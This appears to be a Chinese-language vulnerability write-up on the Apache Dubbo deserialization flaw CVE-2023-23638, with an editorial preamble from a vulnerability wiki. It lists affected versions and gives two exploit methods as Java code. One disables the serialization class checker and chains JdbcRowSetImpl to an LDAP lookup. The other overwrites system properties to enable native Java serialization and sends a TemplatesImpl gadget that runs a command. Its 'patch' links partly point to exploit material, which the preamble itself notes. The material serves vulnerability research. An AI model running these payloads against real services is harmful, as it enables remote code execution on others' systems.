





# Apache Dubbo 反序列化漏洞 (CVE-2023-23638)

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：需知道接口、方法及参数/返回类型；metadata 服务的可达性与配置、JDK/gadget 条件影响利用
- 证据范围：全文包括改写安全检查状态和启用 native-java 后发送 gadget 的两类思路。核心 send 函数未给出，不能当成独立完整 PoC。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 所谓补丁下载链接实际包含分析文章和利用工具，应重新标注
- Dubbo 3 metadata 服务尝试成功率低，不能泛化为所有 3.x 均具备同一入口
- 缺少协议、鉴权、JRE 与 gadget 配置约束
- 通过替换 System.properties 只留下两个属性，可能破坏其余进程配置，应披露副作用
- 依赖前后两步改变安全状态，应明确请求顺序和状态一致性要求

### 操作风险与资料使用

- 涉及 LDAP/RMI/DNS/HTTP 外带：回连只证明相应网络交互，不能单独证明命令执行；使用自控接收端，避免把日志、凭据或真实业务数据发送给第三方。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/3Y2GbHassprtewAsbAN__A)

  

网安引领时代，弥天点亮未来 

  

  


  

**0x00 写在前面**  

  

**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**


  

**0x01 漏洞介绍**

Apache Dubbo 是一款高性能的 Java RPC 框架。其前身是阿里巴巴公司开源的、轻量级的开源 Java RPC 框架，可以和 Spring 框架无缝集成， 2018 年阿里巴巴把这个框架捐献给了 apache 基金会。

Apache Dubbo 是美国阿帕奇（Apache）基金会的一款基于 Java 的轻量级 RPC（远程过程调用）框架。该产品提供了基于接口的远程呼叫、容错和负载平衡以及自动服务注册和发现等功能。

Dubbo 2.7.21 版本及之前的 2.7.x 版本、3.0.13 版本及之前的 3.0.x 版本、3.1.5 版本及之前的 3.1.x 版本存在代码问题漏洞，该漏洞源于存在反序列化漏洞，可能导致恶意代码执行。


  

**0x02 影响版本**  

Apache Dubbo 2.7.x <= 2.7.21 

3.0.0 <= Apache Dubbo <= 3.0.13 

3.1.0 <= Apache Dubbo <= 3.1.5

**注：利用难度大，需知道接口全限定名、方法名、入参及返参类型等。**




  

**0x03 漏洞复现**  

  

1. 识别漏洞环境



2. 对漏洞进行复现

有两种利用方式核心代码  

方式 1  

```
private static Map getInstance() throws IOException {
    HashMap newChecker = new HashMap();
    newChecker.put("class", "org.apache.dubbo.common.utils.SerializeClassChecker");
    newChecker.put("OPEN_CHECK_CLASS", false);
    HashMap map = new HashMap();
    map.put("class", "org.apache.dubbo.common.utils.SerializeClassChecker");
    map.put("INSTANCE", newChecker);
    LinkedHashMap map2 = new LinkedHashMap();
    map2.put("class", "com.sun.rowset.JdbcRowSetImpl");
    map2.put("DataSourceName", "ldap://127.0.0.1:1099/exp");
    map2.put("autoCommit", true);
    HashMap map3 = new HashMap();
    map3.put("class","java.util.HashMap");
    map3.put("1",map);
    map3.put("2",map2);
    return map3;
}

```

方式 2  

```
public static Map getProperties() throws IOException {
    Properties properties = new Properties();
    properties.setProperty("dubbo.security.serialize.generic.native-java-enable","true");
    properties.setProperty("serialization.security.check","false");
    HashMap map = new HashMap();
    map.put("class", "java.lang.System");
    map.put("properties", properties);
    return map;
}
public static Object getObject() throws Exception{
    ClassPool pool = ClassPool.getDefault();
    CtClass clazz = pool.makeClass("a");
    CtClass superClass = pool.get(AbstractTranslet.class.getName());
    clazz.setSuperclass(superClass);
    CtConstructor constructor = new CtConstructor(new CtClass[]{},
            clazz);
    constructor.setBody("Runtime.getRuntime().exec(\"calc.exe\");");
    clazz.addConstructor(constructor);
    byte[][] bytes = new byte[][]{clazz.toBytecode()};
    TemplatesImpl templates = TemplatesImpl.class.newInstance();
    setValue(templates, "_bytecodes", bytes);
    setValue(templates, "_name", "test");
    setValue(templates, "_tfactory", null);
    JSONArray jsonArray = new JSONArray();
    jsonArray.add(templates);
    BadAttributeValueExpException val = new
            BadAttributeValueExpException(null);
    Field valfield = val.getClass().getDeclaredField("val");
    valfield.setAccessible(true);
    valfield.set(val, jsonArray);
    NativeJavaSerialization nativeJavaSerialization =new NativeJavaSerialization();
    UnsafeByteArrayOutputStream unsafeByteArrayOutputStream = new UnsafeByteArrayOutputStream();
    ObjectOutput o = nativeJavaSerialization.serialize(null,unsafeByteArrayOutputStream);
    o.writeObject(val);
    return unsafeByteArrayOutputStream.toByteArray();
}
send(getProperties());
send(getObject());

```

利用过程流量



3. 工具测试（漏洞存在）

在 Dubbo3.x 中，启动服务时会隐式的启动一个 **org.apache.dubbo.metadata.MetadataService** 服务，这个服务的作用是保存 Dubbo 的服务的元数据。

注入服务  



命令执行成功（**成功执行概率很低**）




  

**0x04 修复建议**  

  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

```
https://lists.apache.org/thread/8h6zscfzj482z512d2v5ft63hdhzm0cb
https://exp10it.cn/2023/03/apache-dubbo-cve-2023-23638-%E5%88%86%E6%9E%90/
https://forum.butian.net/share/2277
https://github.com/YYHYlh/Apache-Dubbo-CVE-2023-23638-exp/

```

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于 2019 年 2 月 19 日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

 

知识分享完了

喜欢别忘了关注我们哦~

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
